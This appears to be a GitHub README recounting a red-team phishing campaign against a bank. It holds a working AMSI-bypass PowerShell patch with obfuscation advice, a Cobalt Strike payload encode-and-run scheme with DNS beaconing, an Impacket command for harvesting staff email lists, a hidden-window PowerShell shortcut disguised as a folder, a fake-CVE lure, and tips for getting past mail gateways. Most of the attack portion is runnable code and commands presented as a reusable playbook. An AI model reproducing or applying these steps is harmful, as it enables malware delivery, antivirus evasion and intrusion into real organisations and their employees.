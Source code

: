 <h1 align="center">🎣 My Phishing Case - SeaBank 🎣</h1>

## I.Create Malware - Simple CobaltStrike-Agent Runner
1. Encode the Payload

The original payload will use the default Cobalt Strike payload in .ps1 format.
Use "Windows Stageless Payload" to reduce detection chances and utilize DNS beaconing to evade outbound TCP connection blocks on the target system.
Then, use "encode.ps1" with the generated payload to obtain a Base64-encoded output.
Copy this output and replace it in "decode.ps1", which will be responsible for decoding and executing the Cobalt Strike payload.
The format of decode.ps1 will be as follows:
<p align="center">
  <img src="https://github.com/user-attachments/assets/c6b7d3a5-190b-4bca-a9ba-f1a4bfb03e65">
</p>

2. Bypass Defender

Regarding the bypass method, since the entire execution process relies on PowerShell, using existing AMSI bypass repositories is sufficient.Recon and information gathering on the target’s antivirus (AV) software is crucial because some bypass techniques only work on specific AVs. Additionally, once a bypass technique is used, it may be blacklisted, so modifying the bypass script (e.g., using string concatenation or encryption) is necessary for each attack.In this campaign, Red Team customized the AmsiScanBuffer bypass method from Rasta-Mouse to evade AV detection. The original AMSI bypass code is as follows:
```
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll") #-----------Modify this------------------
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer") #-----------Modify this------------------
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p) #-----------Modify this------------------
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3) #-----------Modify this------------------
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
The above patch needs to have its string values and byte sequences obfuscated to avoid detection by signature-based security measures.
## II. Reconnaissance to Create a Target List
1. Exchanger.py

Creating a target list requires a valid account on the target's Mail Exchange server. This can be done using the "exchanger.py" tool from the Impacket toolkit:
```
python3 exchanger.py DomainName/Username:"Password"@mail.domain.com nspi list-tables
```
The extracted email list will include email addresses, departments, and job titles of all users. This list can be used to compile a target list.

A custom Python script can be created to filter users based on the "title" field. This allows for a more focused attack on a specific department, which reduces scope and increases success rates:

<p align="center">
  <img src="https://github.com/user-attachments/assets/016f7dff-c28e-4a6c-afc9-59c53b0b636a">
</p>

## III. Weaponization
To increase the success rate, the payload-containing attachment will be sent as a ZIP file. This prevents the file format from being immediately visible when the recipient reads the email.

Additionally, the PowerShell script responsible for executing the payload should be hidden from the user's interface by setting its "Hidden Item" attribute:
![image](https://github.com/user-attachments/assets/8e49219f-8bc8-4e00-9915-a582d99b15b9)
Additionally, create a LINK SHORTCUT file in the payload directory to trigger the payload, with the "target" configured as follows:
```
C:\Windows\System32\cmd.exe /c "set STR1=power&& cmd.exe /c %STR1%shell -WindowStyle hidden -exec bypass Import-Module .\Thong_tin_cve\Thong_tin_chi_tiet.ps1
```

<p align="center">
  <img src="https://github.com/user-attachments/assets/f77cc8bb-af2d-42e3-803e-7e8cd288dbe1">
</p>

This shortcut file will call the PowerShell.exe process of the operating system and execute the hidden payload located in the "Thong_tin_cve" folder.

The goal is to trick the user into clicking the shortcut file. To increase the click-through rate, the shortcut icon should be changed to resemble a folder icon (this can be done via the "Change Icon" option).

The folder name, file name, email content, and attached document should be customized according to the selected attack scenario.

In this case, the Red Team is using a fake security advisory about a new Exchange CVE that could lead to personal data leaks. Therefore, all naming conventions (folder, files, email, and attached document) will align with this phishing scenario.

Here is the full-chain of payload:
<p align="center">
  <img src="https://github.com/user-attachments/assets/aa13078f-aac5-4800-9621-67001abd36be">
</p>

## IV. Drop the BOMBS
After completing the setup and weaponization, the final step is to send an email with the attached file to the predefined target list with the following content:

<p align="center">
  <img src="https://github.com/user-attachments/assets/f248c44d-d27f-457b-8f56-05059cdd6500">
</p>

=>And now, just sit back and wait for the targets to take the bait.
<p align="center">
  <img src="https://github.com/user-attachments/assets/c757c30b-c57c-4f4f-b875-5957b517de10">
</p>
<p align="center">
😈Mission accomplished!😈
</p>

## IV. Analysis of Strengths and Weaknesses
1. Strengths

✅This technique is extremely easy to implement, has a high success rate, and works well on both EDR and Kaspersky AV.

✅High flexibility and reusability due to using PowerShell as the main platform.

2. Weaknesses

❌Since the technique relies on PowerShell as the main platform, it will not work on Domains or Forests that have a "Disable PowerShell" policy in place. (However, there are ways to bypass such policies—we will discuss this in a separate topic later.)

❌And, of course, the common weakness of all phishing-based malware drop techniques: Mail Gateway. If the Mail Gateway blocks one of the formats we use (even after compression), the malware delivery to the user will not happen. However, this issue can be mitigated by compressing the entire payload and setting a password before sending it. This approach makes preparation more challenging and reduces the success rate, but it helps evade Mail Gateway detection. (Therefore, leveraging new executable formats will open up more possibilities.)







